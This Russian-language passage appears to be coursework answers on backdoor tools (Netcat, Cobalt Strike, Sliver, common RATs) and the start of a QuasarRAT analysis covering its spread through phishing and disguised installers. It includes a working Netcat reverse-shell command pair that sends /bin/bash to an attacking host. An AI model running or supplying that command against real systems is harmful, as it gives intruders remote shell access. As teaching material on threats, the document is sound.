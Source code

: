       Законное использование: Только тестовых, обучающих системах, или на системах, где у вас есть письменное разрешение.

    2. Netcat (и его модификации, например, Ncat)
      Простой способ создать reverse shell:
        # На атакующем хосте:
        nc -lvnp 4444
        # На атакуемом хосте (если есть доступ к командной строке, например через exploit в Metasploit Framework):
        nc 192.168.1.10 4444 -e /bin/bash
        
        Данный пример не полноценный backdoor, но может быть его частью.

    3. Cobalt Strike
      Это коммерческий инструмент для red team'ов (имитация атак). Позволяет создавать Beacon — скрытый backdoor с шифрованием, обходом AV и т.д. Широко используется в корпоративных пентестах (но часто также в злонамеренных целях из-за утечек).

    4. Sliver
      Современный open-source фреймворк от Bishop Fox. Поддерживает C2 (Command & Control), шифрование, обход EDR и создание backdoor-агентов для Windows, Linux, macOS. 

    5. Злонамеренные программы (трояны с backdoor)
      Эти программы не предназначены для легального использования и часто распространяются киберпреступниками:
        DarkComet, njRAT, Loki RAT, QuasarRAT, NanoCore
      Такие программы часто маскируются под легальное ПО и используются для кражи паролей, записи с веб-камеры, удалённого управления и т.д.   

 #### 4. Провести анализ любого трояна (описать его распространение, что делает после заражения, как его обнаружить и устранить)
    Рассмотрим в качестве примера троян QuasarRAT — один из широко распространённых удалённых троянов-администрирования (Remote Access Trojan, RAT).
    QuasarRAT — типичный пример современного RAT: простой в использовании, мощный в возможностях и опасный при неосторожном поведении пользователя. Хотя он создавался как open-source проект для обучающих целей, на практике стал инструментом киберпреступников.

    Анализ трояна QuasarRAT:
    1. Общая информация
      Тип: Remote Access Trojan (RAT)
      Платформа: Windows (основная цель), хотя существуют модификации для других ОС.
      Открытый исходный код: Да (размещён на GitHub до удаления по запросу правообладателей).
      Язык: C# (.NET)
      Цель: Полный удалённый контроль над заражённой системой.
    
    2. Способы распространения
      QuasarRAT распространяется не сам по себе, а через другие вредоносные методы:
        - Фишинговые письма: Вложение с якобы «счетом», «резюме» или «фото» (файл .exe, .scr, .zip с exe внутри).
        - Поддельные установщики ПО: Например, «взломанные» версии популярных программ (Photoshop, игры и т.д.).
        - Социальная инженерия: Жертве предлагают «скачать полезную утилиту», которая на самом деле — троян.
        - Упаковка в легитимные файлы: Через инструменты вроде MyBinder или Bat to Exe Converter, чтобы обойти антивирусы.
      Часто используется обфускация и упаковка (packing) для сокрытия вредоносного кода от сигнатурного анализа. 
